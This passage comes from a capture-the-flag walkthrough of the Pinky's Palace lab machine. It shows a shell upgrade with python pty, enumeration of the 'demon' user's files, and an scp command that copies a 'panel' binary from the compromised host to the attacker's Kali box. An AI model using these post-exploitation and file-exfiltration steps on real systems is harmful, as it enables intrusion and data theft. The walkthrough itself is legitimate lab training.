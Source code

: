 ## Enumeration of the Demon user

Not many users left now... feeling pretty close to root.  Now to fix this shell and enumerate.
```
python -c "import pty; pty.spawn('/bin/bash')"
demon@Pinkys-Palace:~$ id
id
uid=1001(demon) gid=1001(demon) groups=1001(demon)
demon@Pinkys-Palace:~$ cd /home/demon
cd /home/demon
demon@Pinkys-Palace:~$ ls
ls
backups
demon@Pinkys-Palace:~$ ls -la   
ls -la
total 24
drwxr-x--- 3 demon demon 4096 Mar 17 20:02 .
drwxr-xr-x 5 root  root  4096 Mar 17 15:20 ..
drwxr-xr-x 2 demon demon 4096 Apr 22 12:35 backups
lrwxrwxrwx 1 root  root     9 Mar 17 20:02 .bash_history -> /dev/null
-rw-r--r-- 1 demon demon  220 May 15  2017 .bash_logout
-rw-r--r-- 1 demon demon 3526 May 15  2017 .bashrc
lrwxrwxrwx 1 root  root     9 Mar 17 20:02 .mysql_history -> /dev/null
-rw-r--r-- 1 demon demon  675 May 15  2017 .profile
```

After reviewing stefanos `bash_history` again, I came across the panel service which I believe is what is running on port 31337.
```
demon@Pinkys-Palace:~$ cd /
demon@Pinkys-Palace:/$ ls 
ls
bin     dev   initrd.img      lib32   lost+found  opt   run   sys  var
boot    etc   initrd.img.old  lib64   media       proc  sbin  tmp  vmlinuz
daemon  home  lib             libx32  mnt         root  srv   usr  vmlinuz.old
demon@Pinkys-Palace:/$ cd daemon
demon@Pinkys-Palace:/daemon$ ls -la
drwxr-x---  2 demon demon  4096 Mar 17 19:48 .
drwxr-xr-x 25 root  root   4096 Mar 17 19:31 ..
-rwxr-x---  1 demon demon 13280 Mar 17 19:48 panel
```

I will likely need to do some reverse engineering on this panel file, so I will SCP to transfer this file to my Kali box for further disection.
```
demon@Pinkys-Palace:/daemon$ scp ./panel root@192.168.225.129:~/panel
scp ./panel root@192.168.225.129:~/panel
The authenticity of host '192.168.225.129 (192.168.225.129)' can't be established.
ECDSA key fingerprint is SHA256:znMLiEnEPPazyk0skENbcmsYYpTdlkf1zbix/qJysiY.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '192.168.225.129' (ECDSA) to the list of known hosts.
root@192.168.225.129's password: <HEY NO PEEKING YOU NOSEY BASTARD!!!>

panel                                         100%   13KB   9.1MB/s   00:00    
demon@Pinkys-Palace:/daemon$ 
```
